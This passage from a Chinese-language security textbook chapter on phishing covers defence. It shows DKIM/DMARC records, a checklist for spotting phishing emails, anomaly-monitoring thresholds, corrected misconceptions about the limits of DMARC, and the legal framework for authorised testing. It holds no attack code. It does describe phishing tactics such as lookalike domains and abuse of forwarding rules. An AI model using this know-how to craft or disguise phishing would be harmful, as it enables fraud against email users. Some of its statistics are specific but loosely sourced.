; DKIM - 为发出的邮件附加数字签名
default._domainkey.bank.com. IN TXT "v=DKIM1; k=rsa; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC..."

; DMARC - 声明验证失败时的处理策略
_dmarc.bank.com. IN TXT "v=DMARC1; p=reject; rua=mailto:dmarc@bank.com; ruf=mailto:forensic@bank.com; pct=100"
```

**DMARC三种策略的差异**：

| 策略值 | 含义 | 推荐场景 | 对钓鱼邮件的影响 |
|--------|------|---------|----------------|
| p=none | 仅监控，不拦截 | 初始部署期 | 无拦截效果 |
| p=quarantine | 放入垃圾邮件 | 逐步收紧期 | 拦截部分钓鱼 |
| p=reject | 直接拒绝投递 | 成熟部署期 | **最强拦截** |

#### 23.3.8.2 检测层：如何识别钓鱼邮件？

**用户层面的钓鱼邮件识别清单（可做成速查卡片）**：

| 检查项 | 正常邮件特征 | 钓鱼邮件特征 |
|--------|-------------|-------------|
| 发件人地址 | 与显示名称完全一致 | 名称合法但地址异常（如bank.com写成bаnk.com） |
| 问候语 | 使用你的名字（已知你） | "尊敬的用户/客户"（不知你是谁） |
| 紧急程度 | 有合理时间窗口 | "立即！24小时内！否则！" |
| 链接地址 | 鼠标悬停后URL与显示一致 | 悬停显示异常URL或短链接 |
| 附件来源 | 预期内的附件 | 意外的.zip/.docm/.iso文件 |
| 拼写语法 | 专业、完整 | 偶有不通顺（AI生成的已大幅改善） |
| 索要信息 | 不索要密码/验证码 | 要求提供凭据/验证码 |
| 决策压力 | 留给你时间思考 | 催促你立即操作 |

#### 23.3.8.3 用户行为监控：异常检测指标

企业环境中，可以通过对用户行为的监控在钓鱼攻击发生后快速发现受害者：

| 监控指标 | 正常基线 | 异常阈值 | 响应动作 |
|----------|---------|---------|---------|
| 单个用户短时间内大量邮件被删除 | <10封/小时 | >50封/小时 | 检查是否邮件规则被篡改 |
| 邮件转发规则新增 | 月均<1个用户 | 3+用户同日新增转发规则 | 立即调查 |
| 登录位置异常变化 | 固定地理区域 | 短时间内跨大洲登录 | 强制密码重置 |
| 失败登录尝试激增 | <5次/天 | >20次/天 | 临时锁定账户 |

---

### 23.3.9 常见误区与纠正

**误区1："只有技术不熟练的人才会被钓鱼"**

事实：任何人在特定条件下都可能被钓鱼。2016年DNC邮件泄露事件中，受害者是经验丰富的政治工作人员。2021年，一名美国CISSP认证的安全专家在测试中点击了模拟钓鱼链接——他在那天的第12封邮件中放松了警惕。

**误区2："AI可以100%识别钓鱼邮件"**

事实：截至2024年，最好的AI钓鱼检测模型（Google Safe Browsing、Microsoft Defender for Office 365）的准确率在92-97%之间。这意味着3-8%的钓鱼邮件会漏检。攻击者也在使用AI生成越来越逼真的钓鱼内容——这被称为**对抗性AI钓鱼**（Adversarial AI Phishing）。

**误区3："DMARC配置好后万事大吉"**

事实：DMARC只能验证发件域名的真实性，无法阻止以下情况：
- 攻击者入侵合法账户后从其邮箱直接发送邮件
- 攻击者注册相似域名并配置有效的SPF/DKIM/DMARC
- 邮件在发件服务器到收件服务器之间被中间人拦截篡改

**误区4："安全意识培训是浪费钱"**

事实：Verizon DBIR 2024年报告显示，接受过安全意识培训的员工点击钓鱼邮件的概率是未培训员工的1/3。定期的钓鱼模拟演练可将企业整体点击率从25%降至5%以下。但培训需要持续进行——一次性培训的效果在3个月后衰减80%。

---

### 23.3.10 法律与道德框架

> **⚠️ 重要安全提醒**：本文档中的技术信息仅供授权的安全研究人员和防御方使用。未经授权对他人实施钓鱼攻击是严重违法行为，根据《刑法》第285条、第286条和《网络安全法》，可能面临**处三年以上七年以下有期徒刑**的刑事处罚。

**合法使用场景**：

1. **企业授权的红队测试**：具有书面授权书和明确的测试范围
2. **CTF/网络安全竞赛**：受控环境中的技术演示
3. **安全意识演练**：企业组织的钓鱼模拟测试（经过管理层批准）
4. **学术研究**：在IRB（伦理审查委员会）批准下进行的研究

**合规的最佳实践**：

- 获取书面授权书，明确测试范围、时间窗口和应急响应流程
- 测试前通知安全运营团队（SOC），避免触发真实的事件响应
- 不在测试中收集实际密码（使用占位符或加密存储）
- 测试结束后向所有"受害者"提供即时培训
- 严禁将捕获的数据用于测试目的之外的任何用途

---

### 23.3.11 本章小结

钓鱼攻击技术是一个融合了**心理学、工程技术和社会工程学**的多维领域。本章的核心要点：

1. **心理机制是根基**：紧迫感、权威服从、互惠原理是钓鱼攻击的三大心理杠杆，不理解它们就无法真正理解钓鱼的威力
2. **技术实现是手段**：SMTP伪造、域名欺诈、页面克隆和反向代理构成了钓鱼的技术栈，每个环节都有多种实现方式和对抗检测的方法
3. **精准打击是趋势**：从大规模撒网到鱼叉式钓鱼再到BEC，钓鱼攻击的精准度和损害程度与日俱增
4. **防御需要多层防线**：技术层（SPF/DKIM/DMARC、邮件网关、行为监控）和人员层（持续培训、模拟演练）缺一不可
5. **法律红线不可逾越**：钓鱼技术的掌握者必须对自己的行为负责

**拓展阅读**：
- APWG Phishing Activity Trends Report（季刊）
- SANS Sec555: Email Security and Phishing Defense
- PhishLabs Quarterly Threat Trends & Intelligence Report
- "The Psychology of Phishing" - Studies in Cognitive Security
